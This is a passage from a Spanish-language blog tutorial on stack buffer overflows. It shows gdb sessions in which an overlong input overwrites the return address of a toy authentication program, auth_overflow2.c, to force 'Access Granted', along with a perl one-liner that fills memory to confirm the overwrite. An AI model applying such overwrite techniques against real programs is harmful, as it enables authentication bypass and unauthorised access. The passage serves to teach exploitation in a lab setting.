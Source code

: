 Aunque parece que no hemos sobreescrito la dirección de retorno, sí que lo hemos hecho, pero no se han escrito los ceros por la izquierda, quedando todo desplazado:

```bash
(gdb) c
Continuing.

Breakpoint 2, check_authentication (password=0x7fffffffe74b "356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@356�06@") at auth_overflow2.c:16
16        return auth_flag;
(gdb) c
Continuing.

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
[Inferior 1 (process 3699) exited with code 034]
```

Para comprobar que sí que se sobreescribe, vamos a introducir una dirección sin ceros:

```bash
(gdb) run $(perl -e 'print "xaaxaaxaaxaaxaaxaaxaaxaa"x10')
Breakpoint 2, check_authentication (
    password=0x7fffffffe719 "252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252252")
    at auth_overflow2.c:16
16     return auth_flag;
(gdb) x/10xg $rsp
0x7fffffffe380: 0x00007fffffffe38f  0x00007fffffffe719
0x7fffffffe390: 0xaaaaaaaaaaaaaaaa  0xaaaaaaaaaaaaaaaa
0x7fffffffe3a0: 0xaaaaaaaaaaaaaaaa  0xaaaaaaaaaaaaaaaa
0x7fffffffe3b0: 0xaaaaaaaaaaaaaaaa  (0xaaaaaaaaaaaaaaaa)
0x7fffffffe3c0: 0xaaaaaaaaaaaaaaaa  0xaaaaaaaaaaaaaaaa
```

En estos casos no nos es muy útil el buffer overflow, ya que solo podemos saltar a porciones del código existente, en entradas posteriores, veremos cómo conseguir una shell root.

Espero que os haya gustado.



 [1]: http://www.amazon.es/gp/product/1593271441/ref=as_li_ss_tl?ie=UTF8&tag;=elbaudelpro-21&linkCode;=as2&camp;=3626&creative;=24822&creativeASIN;=1593271441
